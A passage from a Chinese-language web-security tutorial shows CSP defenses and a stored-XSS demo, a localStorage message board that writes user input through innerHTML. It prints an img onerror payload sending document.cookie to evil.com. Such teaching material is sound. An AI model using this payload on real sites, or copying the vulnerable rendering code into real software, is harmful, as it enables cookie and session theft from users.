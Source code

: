 ![](7.png)

点击的时候，直接劫持，然后将 cookie 发送 evil 站点

![](8.png)

这边可以忽略掉 fetch 的跨域问题，因为数据已经抛送过去了。 危害已经造成了。

防御方式跟 上面例子的 `dom base xss` 一样，就是要设置 default-src 和 对应的 xxx-src 的值，不赘述。

### 4. 模拟存储型 xss 的 demo
还有一个存储型的 xss， 存储型的 xss， 一般都是通过提交，将具有 xss 的字串放在数据库。 然后在展示给用户的时候，直接触发里面的 js，一般常见于留言板之类的

我们可以用 `localstorage` 来当后端存储，然后页面刷新的时候， 取出来， 其实就是一个 存储型的 xss。代码很简单
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>CSP Storage xss test</title>
</head>
<body>
  <ul id="list"></ul>
  <textarea id="message" required placeholder="留言板"></textarea>
  <button onclick="submit()">提交</button>
  <script>
  function getList() {
    let list = JSON.parse(localStorage.getItem("list") || "[]")
    return Array.isArray(list) ? list : [list]
  }
  function submit() {
    // 先存到 localstorage， 然后在渲染页面
    let list = getList()
    let message = document.getElementById("message").value
    document.getElementById("list").innerHTML += `<li>${message}</li>`
    list.push(message)
    localStorage.setItem("list", JSON.stringify(list))
  }
  // 加载填充
  let list = getList()
  list.forEach(item => {
    document.getElementById("list").innerHTML += `<li>${item}</li>`
  })
  </script>
</body>
</html>
```
正常的测试肯定没问题

![](13.png)

因为这些是存放在 localstorage 的， 所以重新刷新的时候，这些留言还存在。 这时候我们要构造一个 xss 出来
```html
<img src="1.jpg" onerror="javascript:fetch(`https://evil.com/?cookie=${encodeURIComponent(document.cookie)}`);return false;"/>
```
这时候就会触发存储型的这个 xss
